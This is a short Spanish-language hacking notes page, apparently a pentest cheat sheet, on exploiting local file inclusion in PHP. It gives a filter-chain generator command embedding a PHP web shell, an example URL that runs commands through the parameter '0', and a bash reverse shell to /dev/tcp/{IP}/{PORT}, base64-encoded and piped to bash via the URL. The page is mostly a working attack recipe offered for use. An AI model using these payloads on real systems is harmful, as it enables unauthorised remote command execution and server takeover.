 ```yaml
---
title : LFI
published : True
---
```

* <p> LFI </p>
* <p>Lfi exploit filter convert .ico exploit <a href="uploads/php_filter_chain_generator.py" download="php_filter_chain_generator.py">aqui</a></p>.


```bash
	python3 php_filter_chain_generator.py --chain '<?=`$_GET[0]`;?>'

```
* <p>Lo que nos permite un shell con el parametro indicativo 0 es decir:<br> <font color="red">http://10.10.10.10/login.php?0=whoami&file=//{chain generator}</font></p>
<p></p>
* <p> tambie podemos hacernos un reverse shell para ponerla como parametro pero para no dar conflictos tendria que estar en base64 es decir</p>
<p></p>
```bash
$ echo "/bin/bash -i >& /dev/tcp/{IP}/{PORT} 0>&1" | base64 "
 L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwL3tJUH0ve1BPUlR9IDA+JjEK

```
* <p>Luego los parametros a pasar por la url ya serian como :</p>
<p></p>
```bash
	echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwL3tJUH0ve1BPUlR9IDA+JjEK" | base64 -d|bash
	
```
